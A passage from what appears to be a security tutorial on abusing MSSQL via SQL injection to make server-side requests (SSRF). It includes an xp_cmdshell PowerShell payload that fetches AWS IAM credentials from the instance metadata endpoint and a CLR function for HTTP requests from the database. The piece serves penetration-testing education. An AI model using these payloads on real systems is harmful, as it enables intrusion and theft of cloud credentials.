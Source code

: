 ![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/13.png)

You could use something like <a href="https://github.com/besimorhino/powercat" target="_blank" rel="noopener noreferrer">PowerCat</a>, download the Windows port of netcat/ncat, <a href="https://livebook.manning.com/book/powershell-deep-dives/chapter-4/9" target="_blank" rel="noopener noreferrer">use raw TCP Client for arbitrary ports</a>, or simply invoke Powershell's `Invoke-WebRequest` to make HTTP requests to perform Server Side queries.

```
DECLARE @url varchar(max);
SET @url = 'http://169.254.169.254/latest/meta-data/iam/security-credentials/s3fullaccess/';
exec ('master..xp_cmdshell ''powershell -exec -bypass -c ""(iwr '+@url+').Content""''');
GO
```

![](/img/using-sql-injection-to-perform-ssrf-xspa-attacks/14.png)

You can additionally pass other headers and change the HTTP method as well to access data on services that need a POST or PUT instead of a GET like in the case of IMDSv2 for AWS or a special header like `Metadata: true` in the case of Azure or the `Metadata-Flavor: Google` for GCP.

### MSSQL User Defined Function - SQLHttp

It is fairly straightforward to write a CLR UDF (Common Language Runtime User Defined Function - code written with any of the .NET languages and compiled into a DLL) and load it within MSSQL for custom functions. This, however, requires `dbo` access so may not work unless the web application connection to the database as `sa` or an Administrator role.

<a href="https://github.com/infiniteloopltd/SQLHttp" target="_blank" rel="noopener noreferrer">This Github repo has the Visual Studio project and the installation instructions</a> to load the binary into MSSQL as a CLR assembly and then invoke HTTP GET requests from within MSSQL.

The <a href="" target="_blank" rel="noopener noreferrer">`http.cs` code uses the `WebClient` class to make a GET request and fetch the content</a> as specified

```code
using System.Data.SqlTypes;
using System.Net;

public partial class UserDefinedFunctions
{
    [Microsoft.SqlServer.Server.SqlFunction]
    public static SqlString http(SqlString url)
    {
        var wc = new WebClient();
        var html = wc.DownloadString(url.Value);
        return new SqlString (html);
    }
}
```

In the installation instructions, run the following before the `CREATE ASSEMBLY` query to add the SHA512 hash of the assembly to the list of trusted assemblies on the server (you can see the list using `select * from sys.trusted_assemblies;`)
